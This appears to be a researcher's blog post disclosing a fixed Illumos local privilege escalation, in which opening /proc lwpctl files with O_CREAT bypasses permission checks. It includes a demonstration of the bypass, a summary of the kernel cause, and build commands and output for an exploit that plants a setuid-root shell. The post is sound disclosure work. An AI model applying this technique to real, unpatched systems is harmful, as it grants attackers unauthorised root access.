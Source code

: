 ```yaml
---
layout: post
title: "Local Privilege Escalation in Illumos via /proc"
date: 2017-01-31 09:00:00 +0000
comments: true
categories: 
---
```


The /proc permissions in Illumos were optional. I'm not sure how long this has been an issue but looking at the [history](https://github.com/joyent/illumos-joyent/commits/fee52838cd1191a3efe83b67de7bccdd401af35e/usr/src/uts/common/fs/proc/prvnops.c) of the files associated with the permission check I could not find where the problem was introduced. I checked if this was also an issue in Solaris but this had been fixed in Solaris. However, I could not find the CVE associated with this fix. My suspicion is that this has been an issue prior to the Illumos fork and was found by Solaris engineers and fixed in Solaris but not fixed in Illumos.

I found this vulnerability when I was looking for a RBAC bypass. RBAC in Solaris lets you have different named privileges associated with each process. It is possible for a process with a lot of privileges to drop most of them and keep only the ones that it needs. I thought it might be possible for a low privilege process to use /proc to debug a process owned by the same user that had higher privileges. This was because I thought the filesystem permissions would be the only permission check that would be performed. But if I would have checked the [man page](https://docs.oracle.com/cd/E23824_01/html/821-1473/proc-4.html) I would have seen:

{% blockquote %}
EPERM


An attempt was made to control a process of which the E, P, and I privilege sets were not a subset of the effective set of the controlling process or the limit set of the controlling process is not a superset of limit set of the controlled process.
{% endblockquote %}

But I didn't check the man page and just tried to write to a /proc file of a higher privileged process using bash.

```
echo "wat" > /proc/23912/lwp/1/lwpctl
```

Which instead of giving a permission error gave back an I/O error.

This issue can be demonstrated via the following commands:

First we drop the sys_mount permission which will prevent us from opening proc on our
parent bash process because we have a subset of permissions.

```
ppriv -s A-sys_mount -e /bin/bash
[root@web01 ~]# ppriv $$
23929:  /bin/bash
flags = PRIV_AWARE
        E: basic
        I: basic
        P: basic
        L: basic,contract_event,contract_identity,contract_observer,dtrace_proc,dtrace_user,file_chown,file_chown_self,file_dac_execute,file_dac_read,file_dac_search,file_dac_write,file_owner,file_setid,ipc_dac_read,ipc_dac_write,ipc_owner,net_bindmlp,net_icmpaccess,net_mac_aware,net_observability,net_privaddr,net_rawaccess,proc_audit,proc_chroot,proc_lock_memory,proc_owner,proc_prioup,proc_setid,proc_taskid,sys_acct,sys_admin,sys_audit,sys_fs_import,sys_ip_config,sys_iptun_config,sys_nfs,sys_ppp_config,sys_resource,sys_smb
```

Next, we try and open the parent process lwpctl and it correctly fails.

```
[root@web01 ~]# ps
  PID TTY         TIME CMD
23929 pts/4       0:00 bash
23911 pts/4       0:00 login
23912 pts/4       0:00 bash
23935 pts/4       0:00 ps

python

>>> os.open("/proc/23912/lwp/1/lwpctl", os.O_WRONLY)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
OSError: [Errno 13] Permission denied: '/proc/23912/lwp/1/lwpctl'
```

Next, we open the file with O_CREAT and it incorrectly succeeds.

```
>>> os.open("/proc/24421/lwp/1/lwpctl", os.O_CREAT|os.O_APPEND|os.O_WRONLY)
3
```

In Illumos there is the concept of a VNode which is contains a bunch of pointers to methods that are used by the kernel to interact with the filesystem. When a file is opened the kernel will call a `#access` method on the VNode first and then will call the open method on the VNode if it the `#access` succeeds. However, in the case when O_CREAT is passed the kernel will only call the #create method and it will assume the `#create` method will also call the `#access` method. In the case of the /proc file system this was not happening so anybody could pass in O_CREAT and no permission check would occur so the open would always succeed. Since there is no other checks not only does this work as an RBAC bypass it always works as a privilege escalation from non-root to root. It is important to note that Zone's contain this issue and it doesn't seem possible to use this as a way of escalating your privileges outside of a Zone.

If you look at the [patch](https://github.com/joyent/illumos-joyent/commit/fee52838cd1191a3efe83b67de7bccdd401af35e) you can see a call to `#praccess` was added and some other checks as well that I don't understand.

I notified Joyent about this on the 14th of Decemeber and they had a fix commited by the 17th. The advisory from Joyent is available [here](https://help.joyent.com/hc/en-us/articles/115002310368-Security-Advisory-proc-Filesystem-Permission-Vulnerability). The Joyent people are probably quietly cheering on the demise of Solaris because as you can see from this vulnerability security issues might be fixed in Solaris while still being vulnerable in Illumos. One way of looking at this is that Oracle is selling a zero day exploit feed for Joyent's public cloud. Though, it is probably not that bad because the code bases have diverged a bit.

Exploit
=======

I have an [exploit](https://github.com/benmmurphy/illumos_playground/tree/master/proc_escalation) for this that will use the lwp_agent to create a file `/tmp/elevator` that is suid root. It also uses the `lwp_agent` to write a program to this file that contains:

```
  setuid(0);
  setgid(0);
  execv("/bin/bash");
```

It can be compiled via:

```
  gcc -nostdlib -static bash.s -o bash
  gcc -o go go.c
```

Example output:
```
  root@web01:~# id
  uid=1000(ben) gid=1(other) groups=1(other)

  root@web01:~# ppriv $$
  36695:  sh
  flags = <none>
    E: basic
    I: basic
    P: basic
    L: basic,contract_event,contract_identity,contract_observer,dtrace_proc,dtrace_user,file_chown,file_chown_self,file_dac_execute,file_dac_read,file_dac_search,file_dac_write,file_owner,file_setid,ipc_dac_read,ipc_dac_write,ipc_owner,net_bindmlp,net_icmpaccess,net_mac_aware,net_observability,net_privaddr,net_rawaccess,proc_audit,proc_chroot,proc_lock_memory,proc_owner,proc_prioup,proc_setid,proc_taskid,sys_acct,sys_admin,sys_audit,sys_fs_import,sys_ip_config,sys_iptun_config,sys_mount,sys_nfs,sys_ppp_config,sys_resource,sys_smb

  root@web01:~# ps auxww |grep vi
  root     36626  0.0  0.2 5012 3344 pts/2    S 21:48:50  0:00 vi /tmp/test


  root@web01:~# ./go 36626
  found syscall: fefe2255
  file_size: 1464 8046a50
  write returned: 1464
  [root@web01 /root]# id
  uid=0(root) gid=0(root)
  [root@web01 /root]# ppriv $$
  36724:  /bin/bash
  flags = <none>
    E: basic,contract_event,contract_identity,contract_observer,dtrace_proc,dtrace_user,file_chown,file_chown_self,file_dac_execute,file_dac_read,file_dac_search,file_dac_write,file_owner,file_setid,ipc_dac_read,ipc_dac_write,ipc_owner,net_bindmlp,net_icmpaccess,net_mac_aware,net_observability,net_privaddr,net_rawaccess,proc_audit,proc_chroot,proc_lock_memory,proc_owner,proc_prioup,proc_setid,proc_taskid,sys_acct,sys_admin,sys_audit,sys_fs_import,sys_ip_config,sys_iptun_config,sys_mount,sys_nfs,sys_ppp_config,sys_resource,sys_smb
    I: basic
    P: basic,contract_event,contract_identity,contract_observer,dtrace_proc,dtrace_user,file_chown,file_chown_self,file_dac_execute,file_dac_read,file_dac_search,file_dac_write,file_owner,file_setid,ipc_dac_read,ipc_dac_write,ipc_owner,net_bindmlp,net_icmpaccess,net_mac_aware,net_observability,net_privaddr,net_rawaccess,proc_audit,proc_chroot,proc_lock_memory,proc_owner,proc_prioup,proc_setid,proc_taskid,sys_acct,sys_admin,sys_audit,sys_fs_import,sys_ip_config,sys_iptun_config,sys_mount,sys_nfs,sys_ppp_config,sys_resource,sys_smb
    L: basic,contract_event,contract_identity,contract_observer,dtrace_proc,dtrace_user,file_chown,file_chown_self,file_dac_execute,file_dac_read,file_dac_search,file_dac_write,file_owner,file_setid,ipc_dac_read,ipc_dac_write,ipc_owner,net_bindmlp,net_icmpaccess,net_mac_aware,net_observability,net_privaddr,net_rawaccess,proc_audit,proc_chroot,proc_lock_memory,proc_owner,proc_prioup,proc_setid,proc_taskid,sys_acct,sys_admin,sys_audit,sys_fs_import,sys_ip_config,sys_iptun_config,sys_mount,sys_nfs,sys_ppp_config,sys_resource,sys_smb
```



